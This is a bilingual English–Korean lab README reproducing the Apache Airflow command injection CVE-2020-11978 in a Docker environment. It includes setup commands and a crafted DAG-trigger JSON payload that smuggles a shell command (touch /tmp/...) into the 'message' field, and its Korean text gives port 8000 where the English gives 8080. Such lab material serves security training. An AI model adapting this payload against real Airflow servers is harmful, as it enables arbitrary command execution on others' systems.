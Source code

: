# Apache Airflow Command Injection in Example Dag (CVE-2020-11978)
# Apache Airflow 예제 DAG에서의 명령 주입 취약점 (CVE-2020-11978)
[中文版本(Chinese version)](README.zh-cn.md)
[중국어 버전(Chinese version)](README.zh-cn.md)
Apache Airflow is an open source, distributed task scheduling framework. In the version prior to 1.10.10, there is a command injection vulnerability in the example DAG `example_trigger_target_dag`, which caused attackers to execute arbitrary commands in the worker process.
Apache Airflow는 오픈 소스이며, 분산 작업 예약 프레임워크이다. 버전 1.10.10 이전에는 'example_trigger_target_dag'라는 예제 DAG에서 명령 주입 취약점이 있었는데 이로 인해 공격자가 작업자 프로세스에서 임의의 명령을 실행할 수 있었다.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.
시작되는데 많은 구성 요소가 있기에 지연될 수 있다. 가상 머신을 사용하기 위해서 2GB 이상의 메모리를 준비하라.

References:
참조:
- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## Vulnerability Environment
## 취약점 환경
Execute the following commands to start airflow 1.10.10:
Airflow 1.10.10을 실행하기 위해 다음의 명령어들을 실행하라.
```bash
```bash
#Initialize the database
#데이터베이스 초기화
docker compose run airflow-init

#Start service
#서비스 시작
docker compose up -d
```

## Exploit
## 익스플로잇

Visit `http://your-ip:8080` to see the airflow management terminal, and turn on the `example_trigger_target_dag` flag:
Airflow 관리 터미널을 확인하기 위해 'http://당신의-ip:8000'을 방문하고 'example_trigger_target_dag' 플래그 활성화.

![1](https://github.com/jjgwlsry/whitehat-school-vulhub/assets/37921920/749bb77b-6a74-4ff0-8762-6b126af6d801)


Click the "triger" button on the right, then input the configuration JSON with the crafted payload `{"message":"'\";touch /tmp/airflow_dag_success;#"}`:
우측에 있는 "triger" 버튼을 누르고 조작된 페이로드`{"message":"'\";touch /tmp/airflow_dag_success;#"}`:를 포함한 JSON 설정을 입력하라.

![2](https://github.com/jjgwlsry/whitehat-school-vulhub/assets/37921920/841acf6b-4087-4fd9-9fc8-d19d318fbc7f)


Wait a few seconds to see the execution of "success":
"success" 실행을 위해 잠시 기다려라.

![3](https://github.com/jjgwlsry/whitehat-school-vulhub/assets/37921920/1f794c48-f917-4442-b10c-29f70499c32a)


Go to the CeleryWorker container to see the result, `touch /tmp/airflow_dag_success` has been successfully executed:
CeleryWorekr 컨테이너로 이동하여 `touch /tmp/airflow_dag_success'가 성공적으로 실행됨을 확인하라.

```
docker compose exec airflow-worker ls -l /tmp
```

![4](https://github.com/jjgwlsry/whitehat-school-vulhub/assets/37921920/34ae59bd-d439-479a-9a1a-1329f282cd43)
